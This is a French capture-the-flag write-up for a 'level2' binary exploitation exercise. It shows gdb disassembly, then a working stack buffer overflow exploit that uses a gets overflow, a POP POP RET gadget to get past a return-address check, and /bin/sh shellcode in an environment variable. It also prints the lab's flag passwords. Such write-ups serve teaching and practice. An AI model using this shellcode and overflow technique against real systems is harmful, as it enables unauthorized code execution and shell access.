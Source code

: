 On se connecte sur le level0, ou se trouve un **binaire** <code>level2</code>.

On cherche a savoir ce que fait ce binaire:
```gdb
> gdb level2 -q
Reading symbols from /home/user/level2/level2...(no debugging symbols found)...done.
(gdb) > disas main
Dump of assembler code for function main:
   0x0804853f <+0>:     push   %ebp
   0x08048540 <+1>:     mov    %esp,%ebp
   0x08048542 <+3>:     and    $0xfffffff0,%esp
   0x08048545 <+6>:     call   0x80484d4 <p>
   0x0804854a <+11>:    leave
   0x0804854b <+12>:    ret
End of assembler dump.
> disas p
Dump of assembler code for function p:
   0x080484d4 <+0>:     push   %ebp
   0x080484d5 <+1>:     mov    %esp,%ebp
   0x080484d7 <+3>:     sub    $0x68,%esp
   0x080484da <+6>:     mov    0x8049860,%eax
   0x080484df <+11>:    mov    %eax,(%esp)
   0x080484e2 <+14>:    call   0x80483b0 <fflush@plt>
   0x080484e7 <+19>:    lea    -0x4c(%ebp),%eax
   0x080484ea <+22>:    mov    %eax,(%esp)
   0x080484ed <+25>:    call   0x80483c0 <gets@plt>
   0x080484f2 <+30>:    mov    0x4(%ebp),%eax
   0x080484f5 <+33>:    mov    %eax,-0xc(%ebp)
   0x080484f8 <+36>:    mov    -0xc(%ebp),%eax
   0x080484fb <+39>:    and    $0xb0000000,%eax
   0x08048500 <+44>:    cmp    $0xb0000000,%eax
   0x08048505 <+49>:    jne    0x8048527 <p+83>
   0x08048507 <+51>:    mov    $0x8048620,%eax
   0x0804850c <+56>:    mov    -0xc(%ebp),%edx
   0x0804850f <+59>:    mov    %edx,0x4(%esp)
   0x08048513 <+63>:    mov    %eax,(%esp)
   0x08048516 <+66>:    call   0x80483a0 <printf@plt>
   0x0804851b <+71>:    movl   $0x1,(%esp)
   0x08048522 <+78>:    call   0x80483d0 <_exit@plt>
   0x08048527 <+83>:    lea    -0x4c(%ebp),%eax
   0x0804852a <+86>:    mov    %eax,(%esp)
   0x0804852d <+89>:    call   0x80483f0 <puts@plt>
   0x08048532 <+94>:    lea    -0x4c(%ebp),%eax
   0x08048535 <+97>:    mov    %eax,(%esp)
   0x08048538 <+100>:   call   0x80483e0 <strdup@plt>
   0x0804853d <+105>:   leave
   0x0804853e <+106>:   ret
End of assembler dump.
```

En traduisant le programme (dans **source.c**) on se rend compte de l'utilisation de la fonction **gets** (vulnerable) mais aussi d' une restriction sur l'adresse de retour sur la stack:
<pre><code>if (0xb0000000 == (address & 0xb0000000))
</code></pre>
ou
```gdb
   0x080484fb <+39>:    and    $0xb0000000,%eax
   0x08048500 <+44>:    cmp    $0xb0000000,%eax
   0x08048505 <+49>:    jne    0x8048527 <p+83>
```

Nous allons donc faire un **buffer overflow** avec **shellcode**, et nous allons utliser un **POP POP RET** afin de bypasser la restriction.

On calcul l'**offset** qui va nous permettre de faire le **buffer overflow**:
```gdb
> gdb -q level2
Reading symbols from /home/user/level2/level2...(no debugging symbols found)...done.
(gdb) > b *0x080484f2 # Adresse juste apres le gets
(gdb) > run
Starting program: /home/user/level2/level2
AAAAAAAAAAAAA

Breakpoint 1, 0x080484f2 in p ()
(gdb) > i f
 Stack level 0, frame at 0xbffff680:
 eip = 0x80484f2 in p; saved eip 0x804854a
 called by frame at 0xbffff690
 Arglist at 0xbffff678, args:
 Locals at 0xbffff678, Previous frame's sp is 0xbffff680
 Saved registers:
  ebp at 0xbffff678, eip at 0xbffff67c
(gdb) > p 0xbffff67c - 0xbffff62c
$1 = 80
```
> OFFSET : 80
>
> SHELLCODE: <code>\x31\xc0\x31\xdb\xb0\x06\xcd\x80\x53\x68/tty\x68/dev\x89\xe3\x31\xc9\x66\xb9\x12\x27\xb0\x05\xcd\x80\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80</code>
>
>POP POP RET: <code>0x080485c7   edi ebp ret</code>

Nous commençons par créer une varibale d'environnement avec notre **SHELLCODE** précédé d'une NOPSLIDE (assez grande pour mieux la repérer).
<pre><code>export SHELLCODE=`python -c 'print "\x90"*100+"\x31\xc0\x31\xdb\xb0\x06\xcd\x80\x53\x68/tty\x68/dev\x89\xe3\x31\xc9\x66\xb9\x12\x27\xb0\x05\xcd\x80\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80"'`
</code></pre>

On cherche par la suite l'adresse de notre **SHELLCODE** afin de trouver une adresse d'un des NOP qu'on utlisera pour le buffer overflow.
```gdb
> gdb -q level2
Reading symbols from /home/user/level2/level2...(no debugging symbols found)...done.
(gdb) > b * p
Breakpoint 1 at 0x80484d4
(gdb) > run
Starting program: /home/user/level2/level2

Breakpoint 1, 0x080484d4 in p ()
(gdb) > x/100xs environ
...
0xbffff866:    SHELLCODE=\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\061\300\061۰\006̀Sh/ttyh/dev\211\343\061\311f\271\022'\260\005̀1\300Ph//shh/bin\211\343PS\211ᙰ\v̀"
(gdb) > x/100sx 0xbffff866
0xbffff866:     0x53    0x48    0x45    0x4c    0x4c    0x43    0x4f    0x44
0xbffff86e:     0x45    0x3d    0x90    0x90    0x90    0x90    0x90    0x90
0xbffff876:     0x90    0x90    0x90    0x90    0x90    0x90    0x90    0x90
0xbffff87e:     0x90    0x90    0x90    0x90    0x90    0x90    0x90    0x90
0xbffff886:     0x90    0x90    0x90    0x90    0x90    0x90    0x90    0x90
0xbffff88e:     0x90    0x90    0x90    0x90    0x90    0x90    0x90    0x90
0xbffff896:     0x90    0x90    0x90    0x90    0x90    0x90    0x90    0x90
0xbffff89e:     0x90    0x90    0x90    0x90    0x90    0x90    0x90    0x90
0xbffff8a6:     0x90    0x90    0x90    0x90    0x90    0x90    0x90    0x90
0xbffff8ae:     0x90    0x90    0x90    0x90    0x90    0x90    0x90    0x90
0xbffff8b6:     0x90    0x90    0x90    0x90    0x90    0x90    0x90    0x90
0xbffff8be:     0x90    0x90    0x90    0x90    0x90    0x90    0x90    0x90
0xbffff8c6:     0x90    0x90    0x90    0x90
```
On prend l'une des adresses qui ne contient que des **NOP**: <code>0xbffff8a6</code> et on génère notre commande pour le **buffer overflow** :
<pre><code>(python -c 'print "A" * 80 + "\xc7\x85\x04\x08" + "\xa6\xf8\xff\xbf"') | ./level2</code></pre>
> [OFFSET] = A * 80 [POP POP RET] = 0x080485c7 (little endian) [NOP ADDRESS] = Qui va mener au SHELLCODE
<pre><code>cd ../level3 && cat .pass
492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02
</code></pre>

For download :
<pre><code>scp -P4242 level2@192.168.1.78:level2 .</code></pre>
> Password : 53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77


# Bonus

Ici un simple **ret** suffit, il suffit de prendre notre adresse de ret dans p :
<pre><code>0x0804853e
\x3e\x85\x04\x08 (little endian)
</code></pre>